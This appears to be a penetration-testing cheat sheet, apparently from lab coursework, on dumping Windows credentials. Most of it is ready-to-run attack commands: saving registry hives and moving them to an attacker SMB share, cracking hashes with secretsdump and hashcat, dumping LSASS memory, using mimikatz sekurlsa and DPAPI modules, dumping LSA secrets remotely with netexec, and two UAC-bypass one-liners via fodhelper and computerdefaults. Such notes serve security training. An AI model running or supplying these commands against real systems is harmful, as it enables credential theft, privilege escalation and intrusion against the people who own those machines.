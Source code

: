 # Windows Credential Dumping

## Registry Hives

Back up the registry hives as local admin, security hive can contain cached domain creds and other valuable data.

### Copy target hive

````powershell
# Make a copy of the hives
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

# Mount local share on attack box
sudo smbserver.py -smb2support CompData /home/ltnbob/Documents/

# Copy the hives
C:\> move sam.save \\10.10.15.16\CompData
C:\> move security.save \\10.10.15.16\CompData
C:\> move system.save \\10.10.15.16\CompData
````

### Dumping hashes with secretsdump.py

secretsdump.py will extract the system bootkey needed to dump the local SAM hashes.

`````bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Dumping local SAM hashes (uid:rid:lmhash:nthash)
`````

### Cracking hashes with Hashcat

- Populate retrieved hashes into > hashestocrack.txt
- For LM '-m' code see [wiki page](https://hashcat.net/wiki/doku.php?id=example_hashes)

#### Running Hashcat against NT hashes

```bash
# Craacking NT hashes
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

#### DCC2 hashes

These are local, hashed copies of network credential hashes.

```bash
hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt
```

### DPAPI - Data Protection Application Programming Interface

```powershell
C:\Users\Public> mimikatz.exe

mimikatz: dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
```

### Remote dumping & LSA secrets

With local admin privlages

```bash
# Dumping LSA secrets remotely
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

# Dumping SAM Remotely
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

---

## LSASS - Local Security Authority Subsystem Service

LSASS stores credentials that have ***active logon*** sessions on Windows systems.

### Dumping LSASS process memory

There is a GUI method for dumping the Local Security Authority Process with Task Manager.

Determine what process ID (`PID`) is assigned to `lsass.exe`. 

```powershell
# cmd.exe
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc

# PowerShell
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass

# Create a dump file using PowerShell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

Copy the dump over using [this method](#copy-target-hive)

### [Pypykatz](https://github.com/skelsec/pypykatz) to extract credentials

> Mimikatz implementation in pure Python 

```bash
# Extract hashes
pypykatz lsa minidump /home/peter/Documents/lsass.dmp

# Crack NT hashes found
hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

## Windows Vault and Credential Manager

### Enumerating credentials with cmdkey

```cmd
C:\Users\sadams>whoami
srv01\sadams

C:\Users\sadams>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

Look for 'interactive=' and execute runas to impersonate the user:

```cmd
C:\Users\sadams>runas /savecred /user:SRV01\mcharles cmd
Attempting to start cmd as user "SRV01\mcharles" ...
```

### Extracting credentials with [Mimikatz](https://github.com/ParrotSec/mimikatz)

Dump credentials from memory using the `sekurlsa` module, or manually decrypt credentials using the `dpapi` module.

May need to bypass UAC if no admin rights, impersonation does not grant admin permissions.

```cmd
# Target the LSASS process with sekurlsa:
C:\Users\Administrator\Desktop> mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

# Credential Manager
mimikatz # sekurlsa::credman

# Local passwords and hashes
mimikatz # sekurlsa::logonpasswords
```

Methods for getting passed UAC if no admin access:

```cmd
# fodhelper.exe
reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /ve /t REG_SZ /d "cmd.exe" && start fodhelper.exe

# computerdefaults.exe
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe
```
